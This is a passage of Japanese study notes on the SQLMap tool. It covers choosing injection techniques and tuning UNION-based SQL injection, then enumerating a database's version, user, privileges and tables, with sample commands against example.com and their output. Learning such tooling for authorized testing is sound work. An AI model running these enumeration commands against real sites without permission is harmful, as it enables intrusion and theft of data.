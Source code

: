 **SQLi手法の指定（--technique）**
- 特定のSQLインジェクション手法だけを使いたい／避けたい場合は、`--technique`オプションで手法を絞ることができる
> 遅延が気になるときや、特定の挙動が発生する手法を回避したいときに便利。

**UNIONベースSQLiのチューニング**
- UNION型のインジェクションは、追加の情報が必要になることがある

カラム数の手動指定（--union-cols）
- もし脆弱なクエリの正確なカラム数がわかっている場合は、それを指定できる
```sh
--union-cols=17
```

挿入するデータ型の変更（--union-char）
- 通常SQLMapは NULL やランダムな整数を使って UNION SELECT を組む
- これがクエリ側のデータ型と合わない場合は、代わりに使う値を指定できる
```sh
--union-char='a'
```

FROM句を強制追加（--union-from）
- Oracleなど、一部のDBMSでは UNION SELECT に FROM `<table>` が必須なことがある
- そういう時は、以下のように --union-from=users のように指定する
```sh
--union-from=users
```
- SQLMapが自動的にDBMSの種類を判定できなかった場合、正しく FROM を付けられない → 明示的に指定する必要がある

## データベースの列挙
### 基本情報の取得
- SQLMap は主要なDBMS（データベース管理システム）ごとに一連のSQLクエリを定義している
- これらのクエリは、特定の情報を取得するためにターゲットに対して実行される

SQLiの発見後には、まずは以下の基本情報の取得から始めるのが一般的
- データベースのバージョン（--banner）
- 現在のユーザー名（--current-user）
- 使用中のデータベース名（--current-db）
- DBA権限の有無（--is-dba）

基本情報を取得するコマンド
- sqlmap側で、勝手にバージョンとサービスを取得して、基本情報を取得してくれる
```shell
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

### テーブル一覧の取得
- 現在使用中のDB（例: testdb）が分かったら、次にその中のテーブル一覧を取得する
- `--tables` : テーブル一覧の取得
- `-D` : 上でわかったデータベースの名前を入れる

```shell-session
 sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

